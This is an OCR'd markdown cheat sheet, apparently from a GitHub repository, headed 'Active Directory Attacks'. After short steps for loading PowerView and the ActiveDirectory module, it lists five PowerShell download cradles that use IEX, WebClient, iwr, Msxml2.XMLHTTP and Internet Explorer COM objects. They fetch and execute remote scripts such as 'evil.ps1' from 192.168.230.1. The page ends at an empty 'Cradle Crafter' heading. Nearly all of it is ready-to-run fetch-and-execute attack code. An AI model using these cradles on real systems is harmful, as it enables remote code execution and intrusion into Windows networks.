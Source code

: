 # Active Directory Attacks

## Powershell

### Load a Powershell Script

#### Dot Sourcing

```powershell
. C:\AD\Tools\PowerView.ps1
```

#### Import-Module

```powershell
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

#### List commands in a Module

```powershell
Get-Command -Module <modulename>
```
#### Execute Download Cradle

##### IEX

```powershell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')

```

##### IE

```powershell
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
````

##### PSv3 Onwards - IEX & IWR

```powershell
iex (iwr 'http://192.168.230.1/evil.ps1')
```

##### h

```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```

##### iwr

```powershell
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1") $r = $wr.GetResponse() IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
##### Cradle Crafter
